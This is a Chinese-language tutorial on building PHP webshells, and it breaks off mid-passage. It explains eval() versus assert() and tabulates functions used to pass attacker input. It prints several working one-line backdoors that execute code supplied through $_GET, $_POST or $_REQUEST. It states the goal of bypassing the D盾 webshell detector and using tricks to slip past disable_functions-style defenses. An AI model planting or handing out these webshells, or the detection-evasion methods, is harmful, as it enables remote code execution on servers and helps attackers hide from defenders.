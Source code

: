 
**代码执行与加密函数**

`eval()`和 `assert()`的区别:

|函数|含义|举例|区别|
|---|---|---|---|
|eval()|把字符串作为PHP代码执行|```<?php eval(@urldecode($_GET['1']));```| `eval` 是一个 `语言构造器` 而不是一个函数|
|assert()|检查一个`断言`是否为 FALSE。如果 `断言`是字符串，它将会被 assert() 当做 PHP 代码来执行|```<?php assert(@urldecode($_GET['1']));```|`assert` 是一个 `函数`|


**什么是语言构造器、什么是函数。**

- 语言结构：就是PHP语言的关键词，语言语法的一部分；它不可以被用户定义或者添加到语言扩展或者库中；它可以有也可以没有变量和返回值。 

- 函数：    由代码块组成的，可以复用。

打个比方 语言构造类似于C/C++ 直接与底层语言调用，函数类似于JAVA要过一层解析器。

举例：
```php
<?php
$a = "eval";
$a(@$_GET['a']);  //执行失败

eval(@$_GET['a']); //执行成功
?>
```
> 因为eval是一个语言构造器而不是一个函数，不能被可变函数调用。也无法用php.ini中的disable_functions禁止掉。

可见`eval`这么危险，肯定是被特 别 关 注 的。但是代表见到就杀，其实在网页中也有很多常见的例子，例如和数据库字段中和日后计算进行的代码存储方面很有用。举个[eval()bypassD盾的栗子]()

 如果实在不行可以找一些代替函数或者 奇 技 淫 巧 绕过。 

## 木马中的常见传值或绕过函数

|函数|含义|举例|木马示例|
|---|---|---|---|
|end()|将数组的内部指针指向最后一个值|`<?php $a=array(1,2,3,4,5,6,7);echo end($a);?>`|`<?php eval(end($_REQUEST)); ?>`|
|$_REQUEST|默认情况下包含了 `$_GET`，`$_POST` 和 `$_COOKIE` 的数组，默认情况下用于代替传统get和post|`$_REQUEST['a']/$_REQUEST`|`$_REQUEST['shell']`|
|define()| 定义一个常量|`define ($a,$b,$c)`|`<?php define("shell","$_REQUEST[shell]")eval(shell);?>`|
|extract()|从数组中将变量导入到当前的符号表|`extract($var_array, EXTR_PREFIX_SAME, "wddx");`|`<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>`|
||||


**Tips：**
那我们就去特殊函数中找找函数吧，最常见的代替`eval()`的函数有`assert()`;正当我满怀期待的构造了一波:
```php
<?php 
$a = "assert";
$a(@$_POST['shell']); 
//assert(@$_POST['shell'])
?>
```
发现👴上当了，马无法执行并且报了个`不能使用字符串参数动态调用assert()`的错，👴傻了。
查了一下发现。
